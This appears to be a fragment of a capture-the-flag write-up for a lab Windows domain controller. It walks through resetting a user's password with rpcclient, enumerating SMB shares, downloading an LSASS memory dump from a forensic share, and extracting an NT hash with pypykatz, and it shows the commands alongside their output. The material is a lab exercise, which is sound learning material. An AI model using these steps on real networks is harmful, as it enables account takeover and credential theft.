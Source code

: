 `rpcclient $> setuserinfo2 audit2020 23 'Pass123!'`

## Checking if these creds are pwnable again

`crackmapexec smb 10.10.10.192 -u audit2020 -p 'Pass123!'`

- Nope!

## Checking to see if I finally have access to the forensic share

`smbmap -H 10.10.10.192 -u audit2020 -p 'Pass123!'`

````
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share

````

## Forensic share enumeration

````
smbclient -U audit2020 //10.10.10.192/forensic 'Pass123!'
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

````

- Peculiar directory: **memory_analysis**
- We find an file named lsass.zip which contains lsass.dmp from which we can dump hashes using **pypykatz**

`lsass.zip                           A 41936098  Thu May 28 16:25:08 2020`

- [Extracting lsass remotely](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows)

`pypykatz lsa minidump lsass.DMP`

````
Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c

````
